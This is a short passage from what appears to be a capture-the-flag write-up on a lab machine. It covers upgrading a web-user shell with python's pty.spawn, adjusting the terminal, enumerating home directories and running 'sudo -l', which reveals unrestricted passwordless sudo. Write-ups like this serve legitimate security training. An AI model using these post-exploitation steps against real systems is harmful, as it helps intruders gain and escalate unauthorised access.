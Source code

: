 ![](assets/2024-09-23-16-47-16.png)

## Shell

Let's upgrade our shell to an interactive one:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This didn't work, so I did it with python3 and the prompt looks like the
following:

```
www-data@ip-10-10-124-95:/var/www/html$
```

Set the terminal environment:

```
export TERM=xterm
```

Disable echo:

```
stty -echo
```

## Privesc 

Then we go to `/home` and list the users:

We have two: "rick" and "ubuntu"

Let's go to `/home/rick` and see what we can find:

![](assets/2024-09-23-16-59-04.png)


In the `ubuntu` directory I cannot read anything

I try `sudo -l`: 

```
Matching Defaults entries for www-data on ip-10-10-64-169:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-64-169:
    (ALL) NOPASSWD: ALL
```

